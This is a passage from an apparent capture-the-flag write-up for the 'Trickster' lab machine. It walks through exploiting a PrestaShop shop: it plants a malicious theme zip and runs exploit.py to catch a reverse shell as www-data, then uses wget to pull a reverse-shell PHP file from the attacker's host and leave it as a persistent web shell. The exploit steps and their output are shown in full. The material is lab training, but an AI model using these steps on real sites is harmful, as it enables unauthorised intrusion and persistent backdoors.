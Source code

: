 Zip file:

unzip the given `ps_next_8_theme_malicious.zip` file, edit `a.php` and add your IP to it.

Make a zip after the edit, we'll use this zip to get a reverse shell.

### www-data shell

Start python server.

```python
-$ sudo python3 -m http.server 81                    1 ↵
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 81 (http://0.0.0.0:81/) ...
10.129.56.43 - - [22/Sep/2024 20:59:43] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -
```

And run exploit.py

```bash
╰─➤  python3 exploit.py                             
[?] Please enter the URL (e.g., http://prestashop:8000): http://shop.trickster.htb
[?] Please enter your email: heap@heap.htb
[?] Please enter your message: exploit
[?] Please provide the path to your HTML file: exploit.html
[X] Yay! Your exploit was sent successfully!
[X] Once a CS agent clicks on attachement, you'll get a SHELL
listening on [any] 1234 ...
connect to [10.10.16.4] from (UNKNOWN) [10.129.56.43] 47792
Linux trickster 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 15:33:00 up  2:57,  0 users,  load average: 0.94, 0.27, 0.15
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



## User shell (james)

Just for sake of ease, i added reverse\_shell into `http://trickster.htb/asset` so I can pull up more shells if needed. (with little tweak on `$port=$_GET['port'];`)

```bash
www-data@trickster:~/trickster/assets/php$ wget 10.10.16.4:5000/reverse_shell.php
wget 10.10.16.4:5000/reverse_shell.php
--2024-09-22 15:53:06--  http://10.10.16.4:5000/reverse_shell.php
Connecting to 10.10.16.4:5000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5498 (5.4K) [application/octet-stream]
Saving to: ‘reverse_shell.php’

reverse_shell.php   100%[===================>]   5.37K  --.-KB/s    in 0.1s    

2024-09-22 15:53:06 (38.9 KB/s) - ‘reverse_shell.php’ saved [5498/5498]
```
